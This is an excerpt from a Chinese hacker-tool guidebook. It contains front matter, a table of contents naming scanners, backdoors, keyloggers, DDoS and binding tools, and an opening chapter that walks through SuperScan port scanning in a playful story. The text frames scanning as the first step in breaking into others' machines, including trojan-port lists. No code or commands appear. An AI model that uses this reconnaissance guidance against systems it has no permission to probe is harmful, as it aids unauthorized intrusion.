# 黑客兵器谱


日月经天，风云变幻，新一代黑客兵器的赫赫声名渐渐显现出它们的痕迹；而阿瓜也由一个江湖小虾米向大咖的身份移步前行。在纷乱的江湖中，阿瓜格局即将重构黑客兵器谱的新格局。


《黑客X档案》编辑制作

吉林科学技术出版社出版

## 内容简介

黑客兵器千奇百怪，种类各异，功能不一。为了各位读者能对黑客工具有个较全面的认识，本书把当今流行的黑客工具分为十一类，也就是十一种武器。我们将随着阿瓜和榕哥的指引，把这十一种武器中的精品——从入门到精通。

这十一种武器分别是扫描器、攻击程序、密码破解工具、字典工具、嗅探监听工具、后门程序、键盘记录工具、代理相关工具、结合工具、拒绝服务程序、ICQ&IRC工具。

相信在详细研究这本黑客兵器谱后，大家将对黑客兵器了如指掌，运用自如。在遇到任何黑客工具时都可以一通百通，举一反三，直至无兵胜有兵之境界。

## 版权信息

- 出版：吉林科学技术出版社
- 制作：《黑客X档案》编辑部
- 出品人：孙胜利
- 策划：覃华
- 作者：星尘
- 编辑：朱光洲 小尾 吴红 Zero 呆呆虫
- 光盘制作：王成伟
- 平面设计：谭海梅
- 排版：Bifrost
- E-mail：HACKERXFILES@263.net
- 出版号：ISBN7-900305-65-3
- 定价：人民币19元（双CD+手册）

所载文字和图片，经著作权人授权本社，未经许可，不得转载。版权所有，违者必究。

## 目录


- **第一章 无微不至——扫描利器的关怀** ............ 8
  - 1.1 单一型扫描器 ............ 8
    - 1.1.1 SUPERSCAN ............ 8
    - 1.1.2 NETSUPER ............ 12
  - 1.2 综合型扫描器 ............ 13
    - 1.2.1 X-SCAN ............ 14
    - 1.2.2 流光（FLUXAY） ............ 23


- **第二章 重拳出击——攻击程序的威力** ............
  - 2.1 炸弹与火炮 ............ 33
    - 2.1.1 蓝雪攻击者 ............ 33
    - 2.1.2 Tiger ............ 34
    - 2.1.3 Boom ............ 34
    - 2.1.4 Nemesis ............ 35
  - 2.2 最佳助手 ............ 40
    - 2.2.1 Up2admin ............ 40
    - 2.2.2 ELSave ............ 40


- **第三章 洞若观火——密码破解器具的智慧** ............
  - 3.1 在线破解工具 ............ 43
    - 3.1.1 流光在线破解 ............ 43
    - 3.1.2 朔雪密码破解 ............ 47
    - 3.1.3 ShadowDatabaseScanner ............ 54
  - 3.2 文件和软件密码破解 ............ 60
    - 3.2.1 ZIP Password Cracker ............ 60
    - 3.2.2 ACCESS解密 ............ 62



- **第四章 至尊宝典——破解字典的秘密** ............
  - 4.1 常规字典 ............ 65
    - 4.1.1 黑客字典 ............ 65
    - 4.1.2 字典专家 ............ 69
    - 4.1.3 超级字典生成器 ............ 71
  - 4.2 特色字典工具 ............ 74
    - 4.2.1 黑客字典生成器 ............ 74
    - 4.2.2 生日密码生成器 ............ 76
    - 4.2.3 Txt2Dic ............ 77


## 目录


## 第五章 忽隐忽现——嗅探监听工具的浪漫

- **5.1 敏感信息获取型** ······················ 79
  - 5.1.1 NETSPY ······················ 79
  - 5.1.2 X-SNIFF ······················ 82
  - 5.1.3 WINSNIFF ······················ 83
- **5.2 综合嗅探型** ······················ 85
  - 5.2.1 ARP-Killer ······················ 85
  - 5.2.2 ARPSNIFFER ······················ 86
  - 5.2.3 MYNETMON ······················ 87


# 第六章 别有洞天——后门工具的秘密

- **6.1 常规后门工具** ······················ 93
  - 6.1.1 HALL ······················ 93
  - 6.1.2 TELNET ······················ 100
  - 6.1.3 RMINSTALLER ······················ 102
- **6.2 另类后门工具** ······················ 103
  - 6.2.1 ASPMM ······················ 103
  - 6.2.2 BACKDOOR ······················ 105

## 第七章 威胁含情——键盘记录程序的温柔

- **7.1 系统监视类** ······················ 108
  - 7.1.1 Win-Spy Windows Monitor ······················ 108
  - 7.1.2 Lopus Starr ······················ 112
- **7.2 密码窃取型** ······················ 115
  - 7.2.1 血火 ······················ 115
  - 7.2.2 妖精 ······················ 116
  - 7.2.3 lethief ······················ 118
  - 7.2.4 Win2KPass ······················ 118
  - 7.2.5 传奇击键记录 ······················ 119




## 第八章 潜踪匿迹——代理工具的诡计

- **8.1 代理扫描类** ······················ 123
  - 8.1.1 代理猎手 ······················ 123
  - 8.1.2 MultiProxy ······················ 127
- **8.2 代理跳板类** ······················ 129
  - 8.2.1 Waysonline 通讯代理 ······················ 129
  - 8.2.2 Snake的代理跳板 ······················ 131

## 目录


- 第九章 深度整合——结合工具的杰作 ................................ 135
  - 9.1 常用合并工具 ................................ 135
    - 9.1.1 开山文件合并器 ................................ 135
    - 9.1.2 文件捆绑专家 ................................ 137
  - 9.2 其他同类 ................................ 138
    - 9.2.1 EXEBinder ................................ 138
    - 9.2.2 GWBinder2002 ................................ 138
    - 9.2.3 GIFHIDE ................................ 140

- 第十章 蜂起而攻——拒绝服务工具的手段 ................................ 143
  - 10.1 分布式拒绝服务攻击 ................................ 143
    - 10.1.1 DDoSPing ................................ 144
    - 10.1.2 DDOS-Fucknet ................................ 147
    - 10.1.3 HTTP Bomber ................................ 149
    - 10.1.4 UDP Flooder ................................ 150
  - 10.2 其他DOS工具 ................................ 151
    - 10.2.1 狂怒之PING ................................ 152
    - 10.2.2 Connection_reset ................................ 154
    - 10.2.3 IIScrasher ................................ 154


- 第十一章 言犹不尽——ICQ&IRC工具的轰炸 ................................ 157
  - 11.1 ICQ工具 ................................ 157
    - 11.1.1 Icqfly ................................ 157
    - 11.1.2 ICQPW ................................ 159
    - 11.1.3 DFM ................................ 160
    - 11.1.4 搜易ICQ广告之星 ................................ 160
    - 11.1.5 ICQ Interest Search ................................ 162
  - 11.2 IRC工具 ................................ 165
    - 11.2.1 AZRaIL4 ................................ 165



- 附录 ................................ 174
  - 附录1 WIN2000下黑客入侵CMD常用命令 ................................ 174
  - 附录2 永远的后门 ................................ 180
  - 附录3 目前的分布式攻击系统及解决方法 ................................ 183
  - 附录4 保护数据库服务器，加强数据库安全 ................................ 185
- 光盘目录




## 引子

- 话说阿瓜在暑假遇到一位黑客高手——榕哥，在榕哥的耐心指导下，阿瓜终于从一个一无所知的菜鸟成长为一位见习黑客。
- 阿瓜在入门之后，对黑客技术更加痴迷，白天刻苦学习黑客秘籍，晚上苦练黑客武功。
- 皇天不负有心人，在阿瓜正式成为见习黑客的256天之后，阿瓜终于心有所悟，于是在销魂键盘上敲了十封电子邮件，发给了相熟的各位网友。
- 据后人的《黑客阿瓜成名史》记载，阿瓜的网友们在收到阿瓜邮件时的第一感觉都是觉得这封邮件一定是垃圾邮件，但是当他们看了信的内容后，他们又都不约而同地惊愕、欣喜、无奈于阿瓜的觉悟，因为阿瓜的邮件上写着：哈哈，我终于明白了，我知道是怎么回事了，哈哈，哈哈哈——哦，哦，哦，……我出生在80年代，可我不是菜小孩……
- 榕哥也收到了阿瓜的邮件，所以当阿瓜提出要和榕哥讨论黑客工具的时候，榕哥一点也没有表现出惊讶的样子来，弄得阿瓜很没成就感。但是当榕哥和阿瓜开始谈论起《黑客兵器谱》时，榕哥才真正认识到阿瓜已经不是原来的阿瓜了……

## 第一章

## 无微不至——扫描利器的“关怀”


# 第一章 无微不至——扫描利器的“关怀”

阿瓜觉得各种黑客兵器之中和自己最合得来的就是扫描器了。扫描利器和阿瓜一样，具有“温柔”的性格，会给敌方无微不至的“关怀”，它会吻遍敌机身上每一寸肌肤，所以，只要被扫描器“关怀”过的机器，它的弱点就会暴露无遗。它锋利无比，只要在对方机器任何一个薄弱点刺上一下，就会是敌方噩梦的开始！

榕哥曾对阿瓜讲过，“若要入侵成功，首先要对目标机器进行详细的调查，没有调查，就没有发言权！（阿瓜嘀咕，实践是检验真理的唯一标准。真理呀！）调查的内容包括各种主机信息，如主机名、主机所在的地址、主机操作系统的类型、主机使用的WEB服务器类型、主机开放的端口、主机开放的服务，甚至主机上存在的账户、弱口令。通过这些调查，我们可以找到很多有用的信息。比如说，知道了对方的操作系统类型，我们可以利用已知的系统漏洞来获得系统的使用权限，甚至进一步得到超级用户的权限。”这一切的调查工作我们都可以用扫描器来完成，所以，阿瓜认为，要谈论黑客工具，首先要考虑的就是扫描器。

当今最流行的扫描器有七、八种之多，这些扫描器多是综合型的，也有个别只针对某一方面内容的。比较有代表性的几种扫描器是Superscan、Netsuper、X-Scan、Fluxay，它们都各有各的特点。

## 1.1 单一型扫描器

这种扫描器是只针对某一方面的信息进行扫描。例如，只扫描端口信息，或只扫描Unicode漏洞。由于这种扫描器的功能比较单一，所以它的优点是速度比较快，准确度比较高。就像阿瓜一样，只追求阿莲一个人，所以进度就比较快，而且成功的机会也更大了一点。

### 1.1.1 SUPERSCAN

“SUPERSCAN就是超级扫描器的意思呗。”阿瓜总是觉得多懂点英文是很有成就感的事情。当然，这个扫描器号称超级扫描是夸张了一点，但是这个扫描器的功能还是很强的。下面是它的使用界面，如图1-1-1所示。



1-1-1 SUPERSCAN界面

从使用界面上可以看到，这个软件提供的扫描功能主要是端口扫描。

> 阿瓜小注：端口是主机对外开放的通路，只有知道它开了哪些通路，我们才能进入对方的地盘。当然，这条道也有黑道、白道之分。所谓的白道就是比较正常的服务端口，比如说：WEB服务端口80、FTP服务端口21、SQL Server端口1433等；所谓黑道就是一些非正常服务的端口，比如说：后门程序开的端口，木马程序开的端口等。

榕哥对阿瓜说过，这款软件功能比较单一，但是使用灵活性比较强，而且速度非常快，所以比较适合有明确目的的扫描。

在扫描之前首先要确定要扫描的端口范围。点击右上角的“端口设置”按钮，如图1-1-2所示。



1-1-2 启动端口设置

弹出“端口设置”界面，如图1-1-3所示：



1-1-3 端口设置

从右上角的列表框中可以选择端口列表文件。点击“载入”按钮可以看到供选择的列表文件，如图1-1-4所示。



1-1-4 选择端口列表文件

## 第二章 无微不至——扫描利器的“关怀”

这个软件初始时提供了几个列表文件，我们可以选择其中的一个。例如：“trojans.lst”中存放的是各种木马程序开放的端口。选中“trojans.lst”文件，打开。再回到图1-1-3的界面，这时，会看到什么呢？

原来右边“选择端口”列表的内容已经换成只包括木马（trojans）端口的列表信息了。列表中左边一列的数字是端口号，右边一列的英文是木马的名字，如图1-1-5所示。阿瓜看到这些木马名字的时候常常会想，怎么这些“马”大都是洋马啊？叫的都是洋名字，我看洋马子不见得就比国产马子好！

> 格哥点拨：阿瓜这小子真是没有品味，你要想到外国的机器上动点手脚，你说是洋马子好找还是本地马子好找啊！

在列表里选择要扫描的端口号（即在列表里想要扫描的端口号前打上对勾）。这时端口选择的任务就完成了。如果在端口列表里没有找到想要扫描的端口，我们也可以自己把它添加到端口列表里。比如说，我们想把可爱的3389端口添加到列表里，我们需要进行如图1-1-6所示的设置。





把“端口”和“描述”两项的内容填好，其他部分可不填。然后点击“增加”按钮，这时可以看到端口列表文件里已经有这个端口信息了，如图1-1-7所示。



确定要扫描的端口列表以后，下面的工作就是确定扫描类型，如图1-1-8所示。上面三项的意思分别是：

- 1、“解析主机名”是扫描IP地址的同时，得到对应的机器名称；
- 2、“只扫描响应ping的主机”是因为通常ping不通，说明对方没开机，或者是对方已经关闭了被ping的功能；
- 3、“显示主机响应”就是看看主机对你的扫描有什么反应。

这三项都是可选项，要是觉得有必要就可以选上。

图中下面五项是这个扫描器提供的五种扫描类型：

- 1、“只用Ping扫描主机”是只扫描对方主机是否在线；
- 2、“列表中的每个端口”是指扫描列表里包含的每个端口；
- 3、“列表中全部已选择的端口”是指扫描列表中打上对勾的端口；
- 4、“列表中端口从……”是指可以指定列表中端口从1~65535的一个范围；
- 5、“所有端口从……”是指从1~65535这些端口中任意选择一段范围。

> 阿瓜在对榕哥提到这个扫描器时说：“这就是它的一个特点了，可以满足各种端口扫描的要求，多么体贴啊！”

在选定扫描类型后，要做的工作就是确定扫描地址了。

